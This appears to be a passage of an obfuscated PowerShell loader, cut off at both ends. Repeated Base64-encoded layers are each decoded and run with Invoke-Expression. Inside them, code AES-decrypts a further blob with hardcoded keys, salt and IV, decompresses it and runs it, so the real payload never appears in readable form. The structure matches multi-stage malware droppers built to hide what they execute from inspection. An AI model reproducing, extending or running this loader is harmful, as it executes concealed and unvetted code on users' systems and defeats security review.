QQBjAEQANgBHAEEANwBzAFkAbwB5AHQAMgBqAHIASQBLAFkAeABBAEEAeQA4AE0AMwB3AG0AbABEAGsAWABXAHAASgBkAHYASABrAGMAZAA1AGIAcABtAE4AZAAyADYAVABTAGcAUwBEAC8ARwBLAE4ANQAzAEMAMwBqAEYATQBqAEwAYwB5AGcAdgBqAFYAYgAwADUAdwBCAFQARQArAGwAbABtAHgANQAzADMARABuAFkASQB4AEMANQB4AHcAOABmAHoAawBHADAAQgBqACsAagA4AFoAWQA0AFMAMABFAE8AKwBVAFYATQBWAEUAMQBnAEQAMAArACsATABHAGMAeQBqADQAZgB6AEcAdQBSAGQAYQB1ADAAbgB6AEIAYQAzAEgAbABxAHgAVwBCAEoAcgByAEUANABvAEIAdQBiADkANAB2AFEAbABJADIAbgBoAGgAUgAvAHQAdABMAG0AcwBOADYATQBQAE8AcQBUADcAZgArAGUAawB4ACsAZgBYAEwAVwBDAHAARAArADEAbwAvAGMAYgA0AGYAQQBLAEEAQwBpAE4AZABBAEUAMwBxAEwARABiAEQAbgB3AHkAWQA5ADUANwBBAEoAdwBQAHgATgBMAE0AdgBXAHoAeABjAHQARwBjADgAQgBKAEYATQBqAFkAZgBmAFAAWQBzAHQAYQBoAEkAUQBLAE0AeABGAGYAcABzAG4AYwBGAEoAVgA2AFMARwBRAEsASABUAEwASgB3ADUAdwBSAEYAKwBGAG0AZABEAHcAUABVAGwAbwBaAHAAVQBLAEgAVgBWAGgAdgBJADEATgBOAG8AUwBEAGsANABpAFoAQwBsAEEAdABxADcAZwA9AD0AawA5AHoAagBzAEEAYwBVAHMAeQA0AHIAZABaAHAAZABxAGgAcwBEADYAOAB3ADIAcgA0AEgANgB5AHUAdQBQACIACgAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAFMAdQBiAHMAdAByAGkAbgBnACgAMwAyACwAIAAkAGIAYQBzAGUANgA0AGMAbwBkAGUAZAAuAEwAZQBuAGcAdABoACAALQAgADYANAApAAoAJABrAGUAeQAxACAAPQAgACIAeAB5AEcAbQBwAGgAOQB5AE4AcwBoAFUAQwBRAEoAVgAiAAoAJABrAGUAeQAyACAAPQAgACIAdgAxAE0ANwA0AEwAQQBFAGsATQBxAFEAOABKAFIAZAAiAAoAJABrAGUAeQAzACAAPQAgACIAbgB6AGgASgA3AE0ANgBzAGwAUwBvAFkAQQBLAFkARQAiAAoAJABmAHUAbABsAEsAZQB5ACAAPQAgACQAawBlAHkAMQAgACsAIAAkAGsAZQB5ADIAIAArACAAJABrAGUAeQAzAAoAJABzAGEAbAB0ACAAPQAgACIAcwBuAHoAdgBFAEQAUwBwAGcAZQBYAE8ASQBOAHEAWgAiAAoAJABrAGUAeQBEAGUAcgBpAHYAYQB0AGkAbwBuACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFIAZgBjADIAOAA5ADgARABlAHIAaQB2AGUAQgB5AHQAZQBzAF0AOgA6AG4AZQB3ACgAJABmAHUAbABsAEsAZQB5ACwAIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGEAbAB0ACkALAAgADEAMAAwADAAKQAKACQAawBlAHkAQgB5AHQAZQBzACAAPQAgACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAuAEcAZQB0AEIAeQB0AGUAcwAoADMAMgApAAoAJABpAHYAIAA9ACAAIgBSAEQANABiAHoAbQBuAEgAbwBLAEkAVgBuAFYAMgBTACIACgAkAGkAdgBCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAaQB2ACkACgBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBsAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzACAAKwAgAEAAKAAwACkAIAAqACAAKAAxADYAIAAtACAAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAgAH0AIABlAGwAcwBlAGkAZgAgACgAJABpAHYAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEANgApACAAewAgACQAaQB2AEIAeQB0AGUAcwAgAD0AIAAkAGkAdgBCAHkAdABlAHMAWwAwAC4ALgAxADUAXQAgAH0ACgAkAGEAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEEAZQBzAF0AOgA6AEMAcgBlAGEAdABlACgAKQAKACQAYQBlAHMALgBLAGUAeQAgAD0AIAAkAGsAZQB5AEIAeQB0AGUAcwAKACQAYQBlAHMALgBJAFYAIAA9ACAAJABpAHYAQgB5AHQAZQBzAAoAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAYgBhAHMAZQA2ADQARQBuAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAgAD0AIAAkAGQAZQBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALAAgACQAZABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACkACgAkAGcAegBpAHAAUwB0AHIAZQBhAG0AIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4ARwBaAGkAcABTAHQAcgBlAGEAbQAoACQAbQBlAG0AbwByAHkAUwB0AHIAZQBhAG0ALAAgAFsAUwB5AHMAdABlAG0ALgBJAE8ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ALgBDAG8AbQBwAHIAZQBzAHMAaQBvAG4ATQBvAGQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkACgAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABnAHoAaQBwAFMAdAByAGUAYQBtACkACgAkAGQAZQBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgAgAD0AIAAkAHMAdAByAGUAYQBtAFIAZQBhAGQAZQByAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAAoASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4A"
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgB4ADYAQwBiAGcAbQBOADAARwB4AEoAZgA3AGgATwBxAHkAZABZADMASABZAGgAbgBQAGEAdABTADYANAA2ADkARAA4AHQAcQBGAGUAbQArAGoAUABQAEIATQBuAEIAUABoAE0AdQB0AGEAQQB6AFYAdABOAFcAKwBCACsAeABTADcAaQBSAHAAbwB5ADMAUQBGAEMAMwA3AHIAVwBOAEgASwBnADIAcwBFADUAcwBKAEkAYwAzAEcAOAB5AGYAeABkAEoAcQBrAHAAbABZAHAAMgBGADUAZQBIAGUAZgB0ADMAQQA1AFAANAB4ADYAVABmAFgAdABxAEwAZgAzAE8ASABDAHAARwByAFEAdABXAFUAdwBMAGIAWQBpAEUAawBVAGgALwBVAFYAdABnAEoAUAB1AFgAbQBZAGwAVQBGAC8AWgBnAEgAKwBSAG0AYgBoAEkAcwByADEASwBQAHMAZQBrADIATABlADIAcgBkAEsAUgBiAE0AWQBmAFIAVwBRAEcAdQA1ADMAWgA4AFAATAB3ADEAOQBKAEkARQA2AHAAVwB5AGkAQwBMAEkAbgAzAGkATABhAHgAUAB1AHIAUgBkAEgAZgBuAG4AMQBxAGEAcABTAGIAMABhAGgAcQBoAHEAOABWAGMAWgBYADcATgBTADcAdABUAHQAWgBRAEsANQBqAFYAVAByAFUAMQBVADUATwArAGYAVQA2AHMAbAAyAC8ARgBOAEYAawBqAEQAVABKAGgANgBzAFoALwBwAGwAOAAzAG0ANgBZAFIAQwBFAGwATQBvAHIAQwB6AEsAcwBuADIAcgBKAC8AYQBUAFgARQB0AGYAeQA5AGUANABuAFMATQBNAFYAYgBQAFgANgArAGwAWAA1AHcAYwB3AEwAdwBlAGgALwB6AHkAVQBlAEIAbABZAG4AcgAvADcAdQBXAC8ANAA3AE0AQQBpAGoAdwBQAEUAcgBoAGoAUwBMAGgARwBHAGcAeQBFADgAcgBvADgAWgB5ADkAVQA4AEkAdwBVAFUAYgBpAHoAWQBqACsAdABoADUAaQB5AFQAZwBmAEoAZgAzAFgAcABGAHAAUQBRADcANQByAEYAUQBKAGIARABaAHoANABJAEYAVgBVAFQAQgBHAG0AYgBpAFcAQgBjAHYAZwBQAHIAeQB3AHkARABHAFEASwBMAEMAUAB0AEoAMwBjAHIAbgBKAGMAVABiADAAVABsAGcAYQB1AHoAdgA4AFUASwBsAEgAVQBWAFYAYwAzAEcAOABaAGkAMQBYAFIAcwByAE8AWQBBAGsANgBXADgAZAArAHkATgBTACsARgAvAFUAWgBIAFQAKwB6ADcASABXADAAZwBvAEwASgBtAFoAQgBMAHkAegB4AEsASAAwADQAcQBlAHgAOQBIADkAUwBNAEMASwBCAFkAUQBzAHkASQArAEcARQA5AG4ANwBHAHQAKwBRAE4AcABrADMAUQBsADMAcQA5AGEARQBsAE8ANwBYAHQAeABhAC8ASgBFAGEAMgBsAEgANQBTAGYAUABuAEcAagBYADAAYwBnAEwAVABnAGgAdQBXADQAOQBZAFMARwBmAEkAcQB4AFkAYgArAGEAegBtAGMAMAA0ADkAbAA0ADMAdgAwAGQAdwBrAGcAagBTAGMAWgBCAE4AWABaAFgAMgBXAC8AcAA2AHQATQB1AE4AVwA1AFIAZgByAEkATgAwAGwASgBzAGgAMQAyAGQATQB4AGcAUgBmADQALwBIAEoAOQBlAFoAcwBLAGUAYwBuAEEAcwBHAEUATwBpAEUAeAAyAGEASQB2AHEAdwBLAFcARgA2AGcAaQBDAEUAZgBVAC8ANgBXAEoAVQBEADMAegBrADgARwBwAFEARwBxAGoATwBVAGcANwBxAGYAYwBOAEUAQwA1AEkANwB1AFIARQBRAFUARABWAG4AQwBnADYARwBOAFkAdgBhAHoAWgB1AGgAawBsAHYAMwBlAFUAYQAzAFgARABpAE4AdwA1AHAANQB2ADUAMgBlAGQAVABJADIAagBLAGQAdgBwAEYASwA5AGMANgBsADAAdwBYAGUALwA1AEQAdABQAG8AZwBjAFoAVABjADMAYQBIAGwAWgBMAGIAegBDAHoASABJAGkAegBaAGgASgBhAHkAcwBiAHUASgBLAGkAbgB5AG0AQgBSAHkANwAzAGIAQwBZAFYAOQBoAGkAUgAwAFIAOAA3AG8AdgByADgAWgBGAGgAaQA0ADUANAAxADIAeQA1AFMANwB6AFAAagA5AFoAMQBiAFkAYwBoAHAAbwB3ADUAdABLAFAAQQBIAGIAYgB3AHcAdABOAFQAZwB3ADMAUwBwAHYAQQBSAFMAagA2ADUAYwBLAFoAMwBTAG0ANgBmAEgAbwBKAG4AMQBlADkATwBuAGkAbgBDAEIAQgBFAEEAcgB1AFYAegA0AHcARQBaAEwAYgArAEwAUABUADYAZgBsADAAVgBmAE4AYwBtAEIAZwBTAEoAUgBFADkARgBNAEIAQQBBAEgASwAzAG8ASgBqAE0ARABQAGYAdgBvAG4AbABxAEYAbgBMADgASAA5AFQASwBrAHEAWAArAGQARABnAFQATQByADUAQQA1ADMAagBWADkAWgAwAG4AQwBXAGoAOQBOADQAVQB5AGkAZwBZAHEANQBsAHAAaQBUAGsAMAA5AFYAWABPAHQASgB1AGgAYQBjAEsAMAB3AHoAUABiAFUAVgA2AHAARwBZAEEAbABuAFEAZgBDAHUARQBxADcAbwA3AGsAVQBYAFgATABtAHoALwBnADcAdQBoAEsAZABKAFgAMQBzAEQAMwBpAFcAdQBaAE4AUgBLAFEAOABoAGEAKwBLAEoAMAA2AGsARgBWAEYASgBpADcAZgBJAEgAMQBLADEANABVAFkAMgBVADEAVwBsAEQAcgAvAEcASgB4AEoAawBVAFkAMQBHADAARwBCAGIAUgBDADQASgArADYANgBwAGEARgBWAC8AeABNAFUAcwAyAEIAZgBuACsAQwBSAHoAKwB2AHgAawBzAFUANABWAEEAYQBGAEcAcABqAEUAUgA2AFYANABVAG4AWQBkAEEARAB2AE4AaABpAHIALwBvAGgASABzAFkANgB4AE0AaABLAFgAZgArADEAUQA2AGsAWgBSADAAbwA2AHcAeAB1AHoAeQBuAE0ARABqAHUAVgBqAHYAeQBBAEkAWQB3AEcARgA4ADMATwB2ACsAYgBEADgAYQA1AEIAMgBjAEEAdgBJAHIAQgBZAHgATwBxAHMAawBRAEoAawBIADMAcwBJAHEAVABvAFoAbABpAFIAdQB3AGkAZABFAHoATwB0AGMAVgArAHIAUgBDAEIATwB3ACsANwAyAGkAZgB5AFoARQBGAGoAagB3AEoAWABwAEYASgBoAEoAZQBkAHQAYgBMAGQARgBXADgAeQBYACsAagBlAG4AQgA5ACsAeAAzAEcAYwBwAHQATwBHAE8AaAAzAHkARABXACsATABEADAAOQAwAGcAcQB3AGgAbwBHAFIAUQB5AGsAUgBJAGEAVABoAFEAYgB1AEgAQgAwAGEATgA3AHYAWgBEADcAYQBEADcASgBWAFgAWABaADgARABSAE8ARgBHAC8AWgArAGUAWAB3ADcAagBuAEkAZQBvAFMAMABrAGYAVgBXAFoAUgB6ADYAYgBlAHYAdgBkADcAVQB0AEoAcABzAFkAeQBqAHUAbgBnAHUAQgAvADkAdwBvAGoAdQBFAFcAdABFAHoAVABjAHoARABQAFUASQBwAGYAWQBSAHYAYgBEAHEAOQBKAGkATgA3AHMAegBnADkAcABMAHEAbgBKAE0AYgBqADUAMgBOAGUAMgBQAGcAcgBXAEIARwBBAFcAUwArAFEAeQA5AEwAVQB5AEkANQByAGMAdgAwAHIAVgAwAFQAMwBxAFUAbwBqAGEARABqAE4AZwBSAHYAcgBYAC8AWgB4AEsAYwBhAFAAKwBxAHAAWgBiADMAMQBHAHkAUgA3AFYAcAAyAHUATgB1AEoALwBiAG4ANwBaAFAARwB3AFcAWgBDAGEASABRAC8AZgA0ADkALwAyAE0AVgAxADMAaABvAEsALwBuAGQASABCAGcAYgBhADIAUABzADcAVAB0AHkAawA4AEUAcABQADkAZQBpAEsAQgA5AEUAWQBOAEIAeQAyAFoARwBDAHUANgA3AEEAQQBsAEcAUgBiAHMAVwA5AFgAWgBvAHkATQB0AHcARABhAFUAcgBVADAAUABWADYANQBuAEMATgBkAHAASwAwACsAaAB4AFkAZwBWAGkAaAA1ADYAOQBGADUAegB6ADMATAB3AHMAVwBvAEwAdQBjADUASAB5AHIAKwBQAFYANwB0ADAASAB0ADcAYgA2ACsAMgBFAHIARgAyAGQAQwA3AEkAVQBSAFIAagB4AHYAaAA2AFIATgAwADAAbAA3AG4AdwBKAHkAMQBFAFUAZABVAEwAbwBGAGIAZgB5AEoANAArAFAAawArADAATwBWADYAKwB3AGoAZgBXAC8AcgBjAEsATgBYAG4ARQBDAHoAdwBkAEEAcgBkAEUAVAB6AHMAcAA2AE4AZgBMADIAcQAxADMAUgA1ADkAeABrAHcASAAyAHAARgBmAHYAZgBpAG0AcwB1AFUAWABiAGYATAArAHIAVQBHAEoARAB0AFAASgBEAFoAcQBZAFUASAA5ADIAawBuAG8AeQBmAGQAOABoAE0ASgBTAEYAVAA2AHMAbwA9AFYAdgBnADcAVABzADEAdABQAEUAcABEAFMAdQB4AGIAOAB0AGcAbAAxAGIAUQBxAEsANgBsAE8AcABjAGUAWAAiAAoAJABiAGEAcwBlADYANABFAG4AYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBTAHUAYgBzAHQAcgBpAG4AZwAoADMAMgAsACAAJABiAGEAcwBlADYANABjAG8AZABlAGQALgBMAGUAbgBnAHQAaAAgAC0AIAA2ADQAKQAKACQAawBlAHkAMQAgAD0AIAAiAGQAUwBNAGQAdABOAGgAdgBtAEcARwBnADAAbgBqADUAIgAKACQAawBlAHkAMgAgAD0AIAAiADAAeABxAEsAbwBUADIAMwBhAHAAawB4AEkAcQBTAHkAIgAKACQAawBlAHkAMwAgAD0AIAAiAFMATgAzAE8AMwBHAGgAQgBkAGkANwBHAFUATgBUAEMAIgAKACQAZgB1AGwAbABLAGUAeQAgAD0AIAAkAGsAZQB5ADEAIAArACAAJABrAGUAeQAyACAAKwAgACQAawBlAHkAMwAKACQAcwBhAGwAdAAgAD0AIAAiADUAYwBLAEcAMwBvAFYAZgBnAHMAagBGAEQAdABxAFoAIgAKACQAawBlAHkARABlAHIAaQB2AGEAdABpAG8AbgAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBSAGYAYwAyADgAOQA4AEQAZQByAGkAdgBlAEIAeQB0AGUAcwBdADoAOgBuAGUAdwAoACQAZgB1AGwAbABLAGUAeQAsACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBhAGwAdAApACwAIAAxADAAMAAwACkACgAkAGsAZQB5AEIAeQB0AGUAcwAgAD0AIAAkAGsAZQB5AEQAZQByAGkAdgBhAHQAaQBvAG4ALgBHAGUAdABCAHkAdABlAHMAKAAzADIAKQAKACQAaQB2ACAAPQAgACIARABEAEEAYQBKAFgANgB1AHcANAB6ADQAUgBkAEIAUAAiAAoAJABpAHYAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAkAGkAdgApAAoAaQBmACAAKAAkAGkAdgBCAHkAdABlAHMALgBMAGUAbgBnAHQAaAAgAC0AbAB0ACAAMQA2ACkAIAB7ACAAJABpAHYAQgB5AHQAZQBzACAAPQAgACQAaQB2AEIAeQB0AGUAcwAgACsAIABAACgAMAApACAAKgAgACgAMQA2ACAALQAgACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAIAB9ACAAZQBsAHMAZQBpAGYAIAAoACQAaQB2AEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACAALQBnAHQAIAAxADYAKQAgAHsAIAAkAGkAdgBCAHkAdABlAHMAIAA9ACAAJABpAHYAQgB5AHQAZQBzAFsAMAAuAC4AMQA1AF0AIAB9AAoAJABhAGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBdADoAOgBDAHIAZQBhAHQAZQAoACkACgAkAGEAZQBzAC4ASwBlAHkAIAA9ACAAJABrAGUAeQBCAHkAdABlAHMACgAkAGEAZQBzAC4ASQBWACAAPQAgACQAaQB2AEIAeQB0AGUAcwAKACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwAuAEMAcgBlAGEAdABlAEQAZQBjAHIAeQBwAHQAbwByACgAKQAKACQAZQBuAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AEUAbgBjAHIAeQBwAHQAZQBkAEYAdQBuAGMAdABpAG8AbgApAAoAJABkAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAJABtAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQAoACwAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEIAeQB0AGUAcwApAAoAJABnAHoAaQBwAFMAdAByAGUAYQBtACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAWgBpAHAAUwB0AHIAZQBhAG0AKAAkAG0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACwAIABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApAAoAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBJAE8ALgBTAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAoACQAZwB6AGkAcABTAHQAcgBlAGEAbQApAAoAJABkAGUAYwByAHkAcAB0AGUAZABGAHUAbgBjAHQAaQBvAG4AIAA9ACAAJABzAHQAcgBlAGEAbQBSAGUAYQBkAGUAcgAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQAKAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAZABlAGMAcgB5AHAAdABlAGQARgB1AG4AYwB0AGkAbwBuAA=="
$decodedScript = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encodedScript))
Invoke-Expression $decodedScript
$encodedScript = "JABiAGEAcwBlADYANABjAG8AZABlAGQAIAA9ACAAIgBVAFkANQB5AFgAdAB2AGwAawAyAE4AbQBrAHUAbQBrAEsATABGAEIAVAB0AFYARAAwAGQAYQBnAFoANwBjADQAagB1AGUAdgBsAG0AOABVAHcAOQBQAHAAUwBqAHcAdwB0AEYAWABHADkASAByADUAcABtAHEANABIAGQAMQB2AFkAbAAvADAAbABXADUANgAyAHIAZwA0AG4AZABpAG0AUgAwAFgAWgAvAE8AVABoAEsAVQBZAHYAeQBhAGsAegBQAEsAQgA3AEoAMgBiAFUAVQBtAFcAYwAzAHEAcQBMAEgAdwBiAFgAZQBrADgAdwBqAE4AcAB3AFoAUQBnAFUAMwBkAFoALwBIAGkAbgB5ADgATgA5AHYARgBhADkAcgBVAEUARwBXADIAYgBXAHIAcQAxAFYAegBQAFkAVgBMAGoAMQBkAHcAaQBBAEYANQBFAC8ARAAyAG8AcwAxAG0AVwBEAGwAbwByAEIANAB0AHAAWQBWADYAcgBoAGEAOABnAGQAdgBBAHgATwBCAFEARQBqAG8AYgBhAFoASwBxAFgATAA1AHMAWgBuACsAaABwAEgAMwAxADYAVQBwAC8AQgBHAGwAaABWADEAaQB6AHoAWgB4ADQAMgBBAFYANwBzAEcANgAxAG0AWAA2ADgAZQA3AGwAMgBOAE4AWABsAGgAdQBPAEUAcgArAFQAOQBzAE4AdwBtAFkAQgBMAFQALwB2ADQAWQB0AC8AQwB1ADgAVQA1AHEAZgBVADQAdwBlAEcAeAB0AGwAVABvAE0AMgA1AEIANgBEAGcAQQBpAFoALwBoAGoANwBnAEYAdQBjAG4AZwA5AEoARAB5AEgATgBTADQANQBjAHgAQQBQAFQASgBDAGEAQQB1AGoAVwBOAHAARABVADAAbgBzAEEAbABnAFcANgBqADIAawA5AGwAdwBKAHIANQBkAHIAcAB3AEQAagByACsASgB2AGEAUABJAEoATAB0AEwAbwBtAGYASABCAHIANwAvAEUASgA0AHoAZQAvAEgASABZAHcAYwA2AHUAVABNADEATABCAGsANwB0AGMAagBmAFoAMABZAFMAVwAyAE4ARABiAEQALwBXAEEAWQBLAHoATQAyAC8AVQA2AHAAbABPADQAMQA0AEEAcABpACsAUQBTADQAWgBIAEgAVQBmAFgAUwBUAFgASwAvAGgAdgBNADIARQAyADcAVgBBAHEAbgBwADAAagB3ADAAcwBzAG4AeQBPAHQAaQAxAFAAYwBUAEYAVwBEAGkAUwA3ADUARgBIAHEAbwBrAGsAcQBxAG8ARwBlADEAcgArAHcAQQBFAFEAZQA4ADAAdgBWAEcAOAB4AFEANwBrAHoAUwAvAHEASgAyADMAZQBjADYAQwArAGIAQgAzAGcAOQB4ADEAMgAxACsAcABVAHgAbwBZAGYATQBLAFcAaQB6AHYAeABMAE8AeAA2ADcAcQArAHcARwA4ADkAVQA3ADcAaQAyADAATQBzAEYAWgA3AGUAMABBAHgATQBlAEMAWAB2AHYAWABhAHUAZAByACsATABsACsAdwBIADMAMgB4AGsASwBjADIAdwBVAFcAcABNAFoAcABWAFYAMQBDAE0AaAB5AFEATgBnAHYAWgBKAGoARwBzAGUAdgB4AEQAdgA1ADgAawArAHgAZgBnAEwARgBXAGwAMAA4AEwATwBtAFcAcgBZAFEAagBNAFkAVwBTAGQAUwBZADAARgBqAGkATgBwACsANQAvAGIAUQBiAFQAVgA5ADIAWABvAFkANgArAE4ARgBiAHUAQwBKAFYATQBPADcAVQBMAFgARwBUAG8ASwAyAGoAcABxAFIAdQBxAFQANgBnAHkASgBOAE4ARgB1AHAAWABaADIAYQBzADIALwB1AGkAcgBLADUANgBpAG4AeABuAGUAbgBNAHYAMgBxAEMAeQBxADAAMAB0ADMAawB1AHMANQBlADgASQBkAGYAVgBFAG4AUwBxAGMAUgBHAEcATgBwAGEAZABwAGgAOQBkAHkARwA5AG8AWQBxAEsAbQBtADkAZQBLAG4AaQBsACsAUgBpAEsAKwBoAHQAVAArAGUAcQBpAGIAdQByAEgAQQA4AEQAUgBJAFMATABaAFkAaQB5AC8ARQBHAHoANQBtAFgAawBYAEEAdgBTADIAYgBTAE8AMQBCAEYAZgBCADAAbQBSAGwAZABaAEsAKwBsADAAOAB0AFQAZQBYAHYAWgBOAGEAMAA1AGMAWABVAEEATgBhAEcAVwBCAFQALwB0AHAASQBvAEcALwArAFIAdAB6ACsAcgBjAGUASABvAEsAdwBYAE8AcQBnAFcATwB0AEkAUgBBAGwAQgA4AEcAcABJAFYAdwBHAHQAYwB1AEcANwBzAGUAcQBqAEEATQArAHQAaAAzAFEAUwBVAEkAVgBQAEkAegBmAGsAdgAyAEMAOABSAE4AbQArAGwAOABJAHcANwBTAEUATwAzAEQAWgB6ACsAdgBNAHEAUAA1AFUAdAB0AEUAdwBHAEQAVABiAEEAWABFAGEAQgB1AHgASQBLAG0AaQBTACsATwAwAGEAQgBhAGMAOQB3AEIAVwB1AEsAVwBHAEYAegBBADIARQBYAEsAOAB1AGUAOQBsAHUANgA2AEMAQwBQAFoAbQBaADAAMQBpAFkAUwByAE4ASwBpAE8AQQBnAE4AZQBlAEwASABqAG8AbwAxAGIATQBuAGgANwBzAEwAVAA1ADYAVQBZADMATABMAGwAbQBDAHQANABsAHMAegA5AGQANwA4AC8AegBIAGUAZgA3AGwAbQB2AEYAcABBAEwAOQBJAFkATgA1ADIAVwBHAGoAagA4AFcAWQB6AFcAMQBUAG0AawBBAHoATQBHAEUAVgA3AHQAZQBlAG8ARwAxAGsAWABMAGwAcgByADkAawBDAFcAcwBFAGQAVwBVAEwASQArADEAZwBMAGoAMwA2AFgAVABSAFkAQQBIAFYAagA1AFoAYQBjAHAAMgBiAGUATABCACsATQBkAGcASQBrADMATwBMAGQAWgAyAFEAZQB2AEYAUQBTAEkARQBoAGsAaABzAGoAVgBEADIAQgBvAHkASgA4ADAAcwBTAHMAMQBTAHoASgBDAHIANABmAFoATwBhAE4AYQBCADMAZwBGAHgAdwAvAEkARwBiAG8AbABLAEQAUABFAFIARwArAG4AKwBVAFUAbAAwAHUAdQArAEkAbABvADkASABsADAAWgAwAHEAbwBiAGsAMABaAEUAOQBJAFYAT